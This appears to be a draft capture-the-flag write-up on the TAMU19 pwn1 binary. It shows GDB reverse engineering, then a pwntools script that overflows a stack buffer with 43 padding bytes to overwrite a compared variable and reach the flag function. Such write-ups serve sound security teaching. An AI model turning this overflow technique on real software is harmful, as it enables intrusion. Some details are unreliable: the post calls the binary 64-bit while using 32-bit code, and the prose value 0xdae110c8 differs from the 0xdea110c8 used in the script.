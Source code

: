 ```yaml
---
title: Nightmare Series - Stack Smashing (Part 2)
categories:
  - Blog
tags:
  - Reversing
  - Exploits
published: false
---
```


## **File** 04-bof_variable/tmau19_pwn1

## **File Analysis**
Basic analysis of the file confirms it is an 64 bit ELF file and again in this case shows us that it is not stripped therefore symbols are again available.
![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/file_details.png)

Running the file presents us a basic prompt for input which on testing errors and exits out. This give us a clue that the binary expects a certain input answer.
![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/basic_run.png)

## **Basic Reverse Engineering**
Using GDB we can see the following high level main function flow:
 - Basic function prologue
 - 2x function calls to 'puts' for initial prompts
 - Several resulting combinations of 'fgets' and 'puts' function calls for user input and further prompts
 - Several conditional jumps after each input is compared to saved value using 'strncmp' function
 - Final comparison to hardcoded value before calling 'print_flag' function
 - Epilogue and exit

From looking at the overall logic, we can see that several inputs are required to make it through various layers or answers before we can reach the 'call print_flag' instruction.

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/main_pt1.png)

First Answer
Checking out the first chain of function calls, we see an 'fgets' followed by 'strncmp'. The value read in by 'fgets' is in this case stored in the location EBP-0x3b as is shown in the ```LEA EAX, [EBp-0x3b]; PUSH EAX;``` set of instructions (based on CDECL calling conventions) being the second parameter to the 'fgets' function call.

The following block of instructions sets up the variables for the function 'strncmp' which is comparing a saved string value to that which was passed in via the user. The value here is located at offset EBX-0x159f. We can place a quick breakpoint on the previous instruction and  when reached, print the string value contained at the offset giving us our first answer!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/first_answer.png)

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/main_pt2.png)

We're then greeted with a another prompt for an answer which we can see from the corresponding instruction blocks contains subsequent calls to 'fgets' again followed by 'strncmp', this time with a saved value at offset EBX-0x154d. Following the same routine as above we can print this value using GDB by placing a break point on the instruction just before and view the saved string value the binary expects. We now have our second answer!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/second_answer.png)


At this point we have made it to the third question and this time the input is being compared directly with a hardcoded value of '0xdae110c8' thus controlling the conditional CMP/JNE instruction combination which allows us to reach the 'print_flag' function call or not.

The value is being compared directly with the offset EBP-0x10 on the stack. This is interesting because since if we look back, our previous input answer to this question is loaded (as all others were) at offset EBP-0x3b on the stack. This gives us a nice opportunity to again overflow the stack variable on our final answer, overwrite the location to ensure it contains the expected value and get our flag!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/stack_diagram.png)

## **Exploit**

In this example, for the exploit to succeed we have to send all of the correct answers we have obtained in the appropriate order including the final exploit answer. The amount of padding data (0x3b-0x10 = 0x2b(43)bytes) required for our last answer followed by our overwrite payload value of '0xdae110c8' will be written to the stack. This should ensure the binary passes the conditional comparison and reaches the 'print_flag' function call instruction. We can receive the output, which contains our flag.

```
from pwn import *

pty = process.PTY
target = process('./pwn1',stdin=pty, stdout=pty)
#Setup responses
string1='Sir Lancelot of Camelot'
string2='To seek the Holy Grail.'
#Final exploit responde to overwrite stack location with our controlled value
string3=b'A'*43+p32(0xdea110c8)

# Start the target process
#target = process('./pwn1')

#Recieve first output lines
print(target.recvline(timeout=5))
print(target.recvline(timeout=5))
#Send first answer
target.sendline(string1)

#Second output
print(target.recvline(timeout=5))
#Second answer
target.sendline(string2)

#Third output
print(target.recvline(timeout=5))
#Send third answer including exploit payload
target.sendline(string3)
print(target.recvall())
```

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/exploit_run.png)
